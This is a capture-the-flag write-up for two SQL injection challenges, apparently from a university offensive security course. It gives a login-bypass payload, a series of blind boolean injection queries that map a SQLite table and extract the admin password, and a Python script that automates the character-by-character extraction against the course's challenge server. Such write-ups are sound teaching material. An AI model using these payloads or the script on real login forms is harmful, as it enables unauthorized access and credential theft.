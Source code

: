 ### 🟢 SQL 1 (100)
**Given:**
- A website with Register and Log-in Options
- Register is disabled by admin, so we can only attempt to log-in using username=admin

**Solve:**
Since we don't know admin's password, we want to comment out the SQL query that checks the password. 

We guess that the sql query made from user input takes the form of: 
`SELECT * FROM Users WHERE username='<inject>' AND password='<password>'`

In the username field, if we inject `admin'--`, the query becomes:
`SELECT * FROM Users WHERE username='admin'--' AND password='<password>'`
where everything beyond `--` is commented out. 

The query will eventually be processed to return the entry of the admin within a table that stores user credentials. It exists and so we're let in!

flag{y0u_sh4ll_n0t_p4ss...0h_w4it_y0u_d1d!_caf2bb5ee0ab9820}


### 🟢 SQL 2 (200)
**Solve:**
- ✅ Step 0: try to log-in as admin
	- Inject this in the username input: `admin';--` and enter anything for password
	- We manage to sign-in, but the flag is not shown...
	- This means we need to find the flag stored in the database through other means...
- Begin to explore the database!
- ✅ Step 1: find how many tables are in the database 
	- by injecting: `admin' AND (SELECT CASE WHEN COUNT(*) = 1 THEN 1 ELSE 'no' END AS result FROM sqlite_schema WHERE type='table');--`
	- This executes, meaning there is only one table in the database
		- The flag must be in the same table as user credentials
- ✅ Step 1.5: figure out table name
	- Purpose: needed for later injected queries to figure out table columns etc.
	- Method: letter-by-letter brute-force; use substring
		- `admin' AND (SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1 OFFSET 0), 1, 1)='<char>');`
			-  LIMIT 1 means get only one entry
			- OFFSET 0 means get the 1st entry
		- Sub-steps: set up Python requests to automate brute-force
			- Use burpe suite to inspect HTTP packets for successful log-in vs invalid credentials
				- Use the HTTP response as feedback
					- Invalid credentials: 200 OK
					- Successful Log-in: 302 FOUND
			- Write Python code to automate testing this particular query
	- Table name: us...
		- guess: 'users'
		- verify guess using the injection:
			- `admin' AND (SELECT CASE WHEN (SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1 OFFSET 0) = 'users' THEN 1 ELSE 0 END);--
			- conclusion: works! Table name = 'users'
- ✅ Step 2: figure out the table structure - what columns are there? amount of entries?
	- to see columns: `SELECT name FROM pragma_table_info('<table name>');`
		- requires the table name that we solved for in step 1.5 above
	- get individual column names:
		- SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1;
			- OFFSET 1 means get the 2nd entry of the query results
	- ✅ 2.1: how many columns?
		- Fails at: `admin' AND (SELECT CASE WHEN COUNT(*) > 3 THEN 1 ELSE 'no' END AS column_count FROM pragma_table_info('users'));--`
		- Conclusion: 3 columns in table 'users'
	- ✅ 2.2: how many entries?
		- Success at: `admin' AND (SELECT CASE WHEN COUNT(*) = 1 THEN 1 ELSE 'no' END AS result FROM 'users');--`
		- Conclusion: only 1 entry
			- This means the flag must be in the admin entry
			- Next step: leak the column names
				- One of the columns must store the flag
- ✅ Step 3: leak columns in 'users'
	- first column: guess it's 'username' or 'id'
		- Succeeds with: `admin' AND ((SELECT name FROM pragma_table_info('users') LIMIT 1)='id');--`
			- Observation: table names are not case-sensitive. The above query also succeeded for table 'Users', or 'uSers', etc...
				- This indicates the database is likely SQLite
			- Conclusion: first column is 'id'
	- second column:
		- guess letter by letter:
			- `admin' AND (SELECT CASE WHEN SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 1) = '<char>' THEN 1 ELSE 'no' END);--`
		- verify entire name:
			- `admin' AND (SELECT CASE WHEN SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 8) = 'username' THEN 1 ELSE 'no' END);--`
		- Conclusion: second column is 'username'
	- third column:
		- guess letter by letter:
			- `admin' AND (SELECT CASE WHEN SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 2), 1, 1) = '<char>' THEN 1 ELSE 'no' END);--`
		- verify entire name:
			- `admin' AND (SELECT CASE WHEN SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 2), 1, 8) = 'password' THEN 1 ELSE 'no' END);--`
		- Conclusion: third column is 'password'
- ✅ Step 4: leak the only entry's password (could be the flag?)
	- we already know username="admin", so let's guess that the flag gets stored in the password column
	- guess letter by letter:
		- `admin' AND (SELECT CASE WHEN SUBSTR((SELECT password FROM users LIMIT 1),<position>, 1)='<char>' THEN 1 ELSE 'no' END);--`
	- Use a Python script to automate building the flag string:
		- flag{n0_sql_w4s_h4rm3d_1n_m4k1ng_th1s_ch4ll3ng3_12a919199a35c6e1}


**Python Script to brute-force the flag in Step 4:**
```python
import requests
import string

# prepare a list of possible chars 
alpha_num = list('_' + ' ' + '{' + '}' + string.ascii_lowercase + string.punctuation + string.digits + string.ascii_uppercase) 

base_url = "http://offsec-chalbroker.osiris.cyber.nyu.edu:1505"
# Create a session
session = requests.Session()
session.cookies.set("CHALBROKER_USER_ID", "hw3172")
login_url = f"{base_url}/login?"
response = session.get(login_url)
headers = {"Content-Type": "application/x-www-form-urlencoded"}

# Initialize variables
i = 0
pos = 32
char = alpha_num[0]
flag = ""

# Brute-force the flag through all character positions
while True:
	i = 0
	# land on login page

	response = session.get(login_url)
	# send SQL injection
	# send the first query
	data = {
	"username": f"admin' AND (SELECT CASE WHEN SUBSTR((SELECT password FROM          users LIMIT 1), {pos}, 1)='{char}' THEN 1 ELSE 'no' END);--",
	"password": "a"
	}
	response = session.post(login_url, headers=headers, data=data)

	# if fails, resend to try next possible char
	while (not response.history) and i < len(alpha_num):
		i += 1
		char = alpha_num[i]
		if (i % 10 == 0):
			print(f"On pos {pos}, about to try char: {char} ...........")
		data = {
		"username": f"admin' AND (SELECT CASE WHEN SUBSTR((SELECT password FROM          users LIMIT 1), {pos}, 1)='{char}' THEN 1 ELSE 'no' END);--",
		"password": "a"
		}
		response = session.post(login_url, headers=headers, data=data)

	if (not response.history):
		print(f"Unknown character '{char}' detected at position {pos}. Exit!")
		exit
	
	flag += char # add char to the flag string
	print(f"The flag is (in progress): {flag}")
	if (char == '}'): break
	pos += 1 # move onto checking next character of password entry

print(f"The flag is: {flag}")
```